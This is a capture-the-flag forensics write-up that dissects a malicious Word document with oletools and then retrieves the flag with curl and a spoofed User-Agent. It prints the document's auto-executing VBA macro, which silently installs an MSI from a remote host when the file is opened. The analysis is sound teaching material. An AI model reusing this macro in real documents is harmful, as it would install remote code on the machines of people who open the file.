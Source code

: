 # DR. Mal

We were provided an archive file called `drmal.zip` which contained a Word Document called `Mal.doc`. Since this was Forensics challenge and the document was called `Mal.doc`, it was safe to assume that this was a malicious document.

To analyse this malicious document, I first ran `oleid` from [oletools](https://github.com/decalage2/oletools) to analyse the document.
```console
$ oleid Mal.doc
oleid 0.60.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: Mal.doc
WARNING  For now, VBA stomping cannot be detected for files in memory
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description
--------------------+--------------------+----------+--------------------------
File format         |Unknown file type   |info      |
--------------------+--------------------+----------+--------------------------
Container format    |Unknown Container   |info      |Container type
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                    |                    |          |macros. Suspicious
                    |                    |          |keywords were found. Use
                    |                    |          |olevba and mraptor for
                    |                    |          |more info.
--------------------+--------------------+----------+--------------------------
XLM Macros          |No                  |none      |This file does not contain
                    |                    |          |Excel 4/XLM macros.
--------------------+--------------------+----------+--------------------------
External            |0                   |none      |External relationships
Relationships       |                    |          |such as remote templates,
                    |                    |          |remote OLE objects, etc
--------------------+--------------------+----------+--------------------------
```

As seen in the output above, this document contains VBA macros. As stated in the output, we can use utilize `olevba` to get more info about the VBA macro.

```
$ olevba Mal.doc
olevba 0.60.1 on Python 3.11.5 - http://decalage.info/python/oletools
===============================================================================
FILE: Mal.doc
Type: MHTML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: None - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    On Error Resume Next
    iceCube = "WindowsInstaller.Installer"
    Dim eazyE As Object
    Set eazyE = CreateObject(iceCube)
    eazyE.UILevel = 2
    snoopDogg = "https://drmal.io.ept.gg/flagInstaller.msi"
    eazyE.InstallProduct snoopDogg
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|CreateObject        |May create an OLE object                     |
|IOC       |https://drmal.io.ept|URL                                          |
|          |.gg/flagInstaller.ms|                                             |
|          |i                   |                                             |
|IOC       |flagInstaller.msi   |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

From the output above, we are able to see the VBA macro. The macro of interrest is `MyMacro` as it creates a Windows Installer object to install `flagInstaller.msi` from `https://drmal.io.ept.gg/flagInstaller.msi`. 

Upon doing a GET request to the given URL we get the following output
```console
$ curl https://drmal.io.ept.gg/flagInstaller.msi
Invalid User-Agent
```

From the output it seems like we need to find a valid User-Agent in order to see the content. Since its the Windows Installer thats fetching the data, I decided to find the correct User Agent used by the Windows Installer.

By searching for `user agent for windows installer`, I found the following post: https://www.dropboxforum.com/t5/View-download-and-export/Configure-trusted-client-user-agents-Windows-Installer-user/td-p/582721

In this post, its mentioned that the User-Agent is `Windows Installer`. By using User Agent in our GET request, we are able to fetch the flag:

```console
$ curl -s https://drmal.io.ept.gg/flagInstaller.msi -H "User-Agent: Windows Installer"
EPT{mAlD0c_c0mIn_sTr4igHt_0utt4_jAEr3n}
```

